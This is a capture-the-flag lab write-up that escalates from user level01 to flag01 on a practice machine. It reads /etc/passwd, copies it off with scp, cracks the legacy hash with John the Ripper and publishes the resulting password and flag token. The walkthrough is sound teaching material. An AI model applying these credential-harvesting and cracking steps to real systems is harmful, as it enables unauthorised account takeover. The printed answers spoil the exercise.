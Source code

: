 ## Step 1: Identifying the User

We begin by checking our current user informations:

```bash
$ id
uid=2001(level01) gid=2001(level01) groups=2001(level01),100(users)
```

This shows that we are operating as the user `level01`.

---

## Step 2: Searching for files

Next, we attempt to find any files owned by the user `level01` or `flag01` :

```bash
$ find / -user level01 -group level01 2> /dev/null
$ find / -user flag01 -group flag01 2> /dev/null
```

Unfortunately, this search did not yield any useful results.

---

## Step 3: Inspecting the `/etc/passwd` File

We then decide to examine the `/etc/passwd` file to gather more informations:

```bash
$ cat /etc/passwd
...
flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
...
```

The entry for `flag01` contains a hashed password.

---

## Step 4: Cracking the Password

We transfer the `/etc/passwd` file to our local machine to attempt cracking the password:

```bash
$ scp -P 4242 level01@machine_ip:/etc/passwd .
$ john passwd
...
abcdefg          (flag01)
...
```

We successfully cracked the password, which is `abcdefg`.

---

## Step 5: Obtaining the Flag

Finally, we switch to the `flag01` user and retrieve the flag:

```bash
$ su flag01
Password:
abcdefg

$ getflag
Check flag.Here is your token : x24ti5gi3x0ol2eh4esiuxias
```

---

And there you have it, the token is `x24ti5gi3x0ol2eh4esiuxias`.
